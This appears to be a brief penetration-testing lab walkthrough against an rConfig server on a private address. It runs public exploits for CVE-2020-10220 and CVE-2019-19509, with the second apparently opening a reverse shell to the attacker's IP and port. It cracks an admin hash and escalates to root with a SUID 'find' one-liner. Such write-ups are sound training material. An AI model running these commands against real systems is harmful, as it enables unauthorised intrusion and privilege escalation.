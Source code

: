 ![](../attachment/11e8c18ab5d65ac524bf492b8957135b.png)
Searching for vulnerabilites we found:
https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2020-10220.py

![](../attachment/2c34817e86f28a031218bebe9c7f7b0b.png)
Modifying request to verify=False to prevent SSL errors.

```
python3 rconfig_CVE-2020-10220.py https://192.168.241.57:8081
```
![](../attachment/80c9655f0d42bd3771d00e61f97802b0.png)
We get an admin hash.

![](../attachment/bc131bba30124edc3bc03869d5c89809.png)
We can crack it.

Now we can use this [exploit](https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2019-19509.py) after modifying all request.get() by adding verify=False
```
python3 rconfig_CVE-2019-19509.py https://192.168.241.57:8081 admin abgrtyu 192.168.45.166 8081
```
![](../attachment/eb246d8c4a5f3e14882942f58cdbbfc3.png)

Running linpeas:
![](../attachment/47f0700296e493c24fc974a2bddc29ee.png)

using gtfobins:
![](../attachment/a4c4ecd5d6fa328091112fe84ee113cc.png)

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```
![](../attachment/f6ca840a3ade2cb6efb4dffc0cd56653.png)